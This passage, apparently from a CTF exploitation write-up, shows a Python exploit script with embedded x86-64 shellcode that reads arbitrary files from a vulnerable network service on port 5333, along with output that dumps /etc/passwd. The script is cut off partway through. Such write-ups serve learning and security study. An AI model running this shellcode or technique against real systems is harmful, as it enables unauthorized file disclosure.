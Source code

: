 s.send('x\n')

s.close()
{% endhighlight)

{% highlight bash)
[+] shellcode = 0x01355030
[+] pivot = 0x01355030
[+] vulnerable pointer = 0x013552b0
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
...snip...
{% endhighlight)

This also worked against the remote server! It showed me that there was a user called ```amazon``` with home directory ```/home/amazon```. I adapted the exploit a bit to make it read arbitrary files. The instruction that needs adjusting is this one:

{% highlight bash)
; NULL byte fix
xor byte [rdi + 11], 0x41
{% endhighlight)

We need to update the value 11, or ```0x0b```. The exploit code was modified once more, spraying ```time.sleep()``` calls here and there:

{% highlight python)
#!/usr/bin/python

from socket import *
import time, re, struct, sys


def getID(data):
    match = re.search(r'(\d.*)', data.strip())
    if match:
        return int(match.group(1))

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 5333))

# banner
s.recv(1024)

length = len(sys.argv[1])
filename = sys.argv[1].strip()
# send first string. this will be our shellcode
s.send('c 0 \xeb\x3f\x5f\x80\x77'+struct.pack('<b', length)+'\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff'+filename+'A\n')

time.sleep(0.1)
#s.recv(2)  # receive pesky '> '
data = s.recv(64)
p_shellcode = getID(data)

print '[+] shellcode = 0x{0:08x}'.format(p_shellcode)

# send second string. this will be our 'pivot' pointer.
s.send('c 0 ' + struct.pack('<L', p_shellcode) + '\n')

time.sleep(0.1)
data = s.recv(64)
p_pivot = getID(data)
